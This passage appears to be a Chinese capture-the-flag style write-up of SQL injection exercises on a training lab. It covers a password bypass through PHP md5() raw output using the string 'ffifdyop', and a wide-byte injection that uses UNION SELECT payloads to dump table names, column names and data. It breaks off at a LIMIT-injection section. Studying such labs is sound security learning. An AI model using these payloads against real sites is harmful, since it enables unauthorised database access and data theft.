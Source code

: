 其中最关键的语句是

```bash
select * from user where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'。
```

对传入的userid使用了intval()函数转化为数字，同时将password使用md5()函数进行转化。这就是一个典型的MD5加密后的SQL注入。
其中最主要的就是md5()函数，当第二个参数为true时，会返回16字符的二进制格式。当为false的时候，返回的就是32字符十六进制数。默认的是false模式。具体的差别通过下面这个代码来看。

```bash
md5("123456");			e10adc3949ba59abbe56e057f20f883e
md5("123456",true);		
```
可以看到当参数为true的时候，md5之后的值就会乱码。
那么只要md5(str,true)之后的值是包含了'or'<trash>这样的字符串，那么sql语句就会变为select 8 from users where usrid="XXX" and password=''or'<trash>'。如此就可以绕过了。那么这样的str字符串存在吗？所幸还好存在一个，就是ffifdyop。那么我们最终的payload就是：
  
```bash
http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/?userid=1&pwd=ffifdyop
```
# 宽字节注入
输入%df'出现报错
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%df'
```
判断字段长短
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' order by 3 %23
```
得到显示位

```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,3 %23
```
显示位为 2,3

查看表名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) %23
```
得到字段名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934) %23
```
得到字段数据
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(title_1,content_1) from sae_user_sqli4) %23
```
# limit注入
猜测后台是
```bash
select * from  table limit start,num
```
发现只有limit参数有用，num没影响

